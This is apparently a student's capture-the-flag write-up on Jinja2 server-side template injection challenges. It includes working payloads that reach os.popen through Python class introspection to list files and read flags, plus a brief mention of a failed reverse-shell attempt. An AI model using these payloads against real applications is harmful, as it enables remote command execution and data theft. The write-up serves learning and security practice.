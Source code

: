 # Web Security writeup
by Ka Po Chau

# ssti
By following [this guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), I was able to check the ssti injection and confirmed that it is python jinja2.
> {{7*'7'}} = 7777777
> 
> {{foobar}} Nothing

## ssti1
just using `{{config}}` I was able to find the flag inside it.

## ssti2
[Detailed steps](https://secure-cookie.io/attacks/ssti/) to the ssti attack. I had to first find the number of `warnings.catch_warnings` with 
```
{{ "foo".__class__.__base__.__subclasses__() }}
```
It is 305th line, which means I can then do:
```
{{ "foo".__class__.__base__.__subclasses__()[305].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}
{{ "foo".__class__.__base__.__subclasses__()[305].__init__.__globals__['sys'].modules['os'].popen("cat flag.txt").read() }}
```
and got the flag from `flag.txt`.

## ssti3
Same as ssti2 except `warnings.catch_warnings` is at 299.

```
{{ "foo".__class__.__base__.__subclasses__()[299].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}
{{ "foo".__class__.__base__.__subclasses__()[299].__init__.__globals__['sys'].modules['os'].popen("./getFlag").read() }}
```

## ssti 4
I was unable to solve this challenge, tried to do an ls that showed:
```
app.py
config.py
docker-compose.yml
index.html
```
and read the docker-compose.yml, but could not get the port of the old docker container. nmap scan showed 1 ssh port and 2 html ports, but could not figure out a way to attack. Also tried to reverse shell with ncat but was not working.

# graphql




